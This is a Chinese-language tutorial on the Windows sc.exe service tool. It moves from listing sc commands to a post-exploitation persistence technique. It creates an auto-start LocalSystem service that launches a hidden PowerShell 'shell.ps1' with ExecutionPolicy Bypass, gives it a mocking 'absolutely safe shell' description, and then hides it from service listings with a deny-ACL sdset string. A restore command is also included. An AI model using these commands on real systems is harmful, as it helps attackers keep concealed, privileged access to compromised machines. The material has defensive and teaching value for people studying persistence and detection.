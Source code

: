# 服务介绍

服务 (即， 以前的 NT 服务) 使您能够创建在它们自己的 Windows 会话中可长时间运行的可执行应用程序。这些 服务可以在计算机启动时自动启动， 可以暂停和重新启动而且不显示任何用户界面。这种服务非常适合在服务器上 使用， 或任何时候， 为了不影响在同一台计算机上工作的其他用户， 需要长时间运行功能时使用。还可以在不同于 登录用户的特定用户帐户或默认计算机帐户的安全上下文中运行服务。

输入 `SC/?` 出现以下提示

```
描述: SC 是用来与服务控制管理器和服务进行通信的命令行程序。
用法 : sc <server> [command] [service name] <option1> <option2>...
命令:
query-----------查询服务的状态，  或枚举服务类型的状态。
queryex---------查询服务的扩展状态，  或枚举服务类型的状态。
start-----------启动服务。
pause-----------向服务发送  PAUSE 控制请求。
interrogate-----向服务发送  INTERROGATE 控制请求。
continue--------向服务发送  CONTINUE 控制请求。
stop------------向服务发送  STOP 请求。
config----------更改服务的配置(永久)。
description-----更改服务的描述。
failure---------更改失败时服务执行的操作。
failureflag-----更改服务的失败操作标志。
sidtype---------更改服务的服务  SID 类型。
privs-----------更改服务的所需特权。
managedaccount--更改服务以将服务帐户密码标记为由  LSA 管理。
qc--------------查询服务的配置信息。
qdescription----查询服务的描述。
qfailure--------查询失败时服务执行的操作。
qfailureflag----查询服务的失败操作标志。
qsidtype--------查询服务的服务  SID 类型。
qprivs----------查询服务的所需特权。
qtriggerinfo----查询服务的触发器参数。
qpreferrednode--查询服务的首选  NUMA 节点。
qmanagedaccount-查询服务是否将帐户与  LSA 管理的密码结合使用。
qprotection-----查询服务的进程保护级别。
quserservice----查询用户服务模板的本地实例。
delete ----------(从注册表中)删除服务。
create----------创建服务(并将其添加到注册表中)。
control---------向服务发送控制。
sdshow----------显示服务的安全描述符。
sdset-----------设置服务的安全描述符。
showsid---------显示与任意名称对应的服务  SID 字符串。
triggerinfo-----配置服务的触发器参数。
preferrednode---设置服务的首选  NUMA 节点。
GetDisplayName--获取服务的  DisplayName。
GetKeyName------获取服务的  ServiceKeyName。
EnumDepend------枚举服务依赖关系。
```

因为我们使用的是create。所以输入 `sc create`![img](https://image.201068.xyz/assets/clip_image008-168395960828320.gif)得到以下提示

```
描述: 在注册表和服务数据库中创建服务项。
用法: sc <server> create [service name] [binPath= ] <option1> <option2>...
注意: 选项名称包括等号。等号和值之间需要一个空格。
选项:	在注册表和服务数据库中创建服务项。
sc <server> create [service name] [binPath= ] <option1> <option2>... 选项名称包括等号。等号和值之间需要一个空格。
type= <own|share|interact|kernel|filesys|rec|userown|usershare>(默认  = own) start= <boot|system|auto|demand|disabled|delayed-auto>(默认  = demand)      error= <normal|severe|critical|ignore>(默认  = normal)
binPath= <.exe 文件的  BinaryPathName>
group= <LoadOrderGroup>
tag= <yes |no>
depend= <依存关系(以  / (斜杠)分隔)>
obj= <AccountName|ObjectName>(默认= LocalSystem)
DisplayName= <显示名称>
password= <密码>
```

# 服务维持权限                                      [ ](af://n13)

根据以上的提示信息我们来创建一个服务让他启动ps1脚本(注意空格)

```
1、创建服务
sc create shell start= auto binPath= "cmd.exe /k powershell.exe -w hidden -ExecutionPolicy Bypass -NoExit -File C:\Users\Administrator\Desktop\keep\shell.ps1" obj= Localsystem  

2、对该服务进行伪装
sc description "shell" "绝对安全的shell哈哈哈"

3、设置服务的自动启动
sc config "shell" start= auto

4、然后启动该服务
net start "服务名"
```

![img](https://image.201068.xyz/assets/clip_image010-168395960828321.gif)

接下来去查看服务是否已经创建【`services.msc`】

![img](https://image.201068.xyz/assets/clip_image011.jpg)

接下来重启电脑看看能不能连接

![img](https://image.201068.xyz/assets/clip_image013.gif)

# 隐藏服务                                          [ ](af://n29)

这种创建服务的方法隐藏性太弱， 直接在服务里就能看到， 可以在创建完服务后， 使用以下命令将创建的服务隐 藏， 这样不论是在服务中， 还是使用命令都查不到这个服务。

 

```
sc sdset shell "D:(D;;DCLCWPDTSDCC;;;IU)(D;;DCLCWPDTSDCC;;;SU)(D;;DCLCWPDTSDCC;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;; ;BA)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
```

![img](https://image.201068.xyz/assets/clip_image015.gif)

使用以下的命令进行恢复

```
sc sdset shell "D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
```

